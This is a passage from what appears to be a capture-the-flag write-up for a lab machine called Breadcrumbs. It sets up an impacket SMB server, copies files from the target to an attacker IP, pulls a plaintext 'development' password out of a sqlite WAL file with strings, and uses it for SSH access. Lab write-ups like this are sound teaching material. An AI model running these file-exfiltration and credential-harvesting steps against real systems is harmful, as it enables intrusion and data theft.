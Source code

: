 Transfer files with smb
```bash
impacket-smbserver -smb2support smb .
cp <filename> \\10.10.15.71\smb
```

![](/assets/img/posts/breadcrumbs/smb-transfer.png)

running strings over "plum.sqlite-wal" found "development" user's (looks like a) password
```bash
❯ strings plum.sqlite-wal| grep development | tail -n1
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
```

And password work for ssh login

![](/assets/img/posts/breadcrumbs/ssh-dev.png)


Now we can access to `C:\Development` and there is a linux binary.

Download to local machine with smb

![](/assets/img/posts/breadcrumbs/smb-download-elf.png)
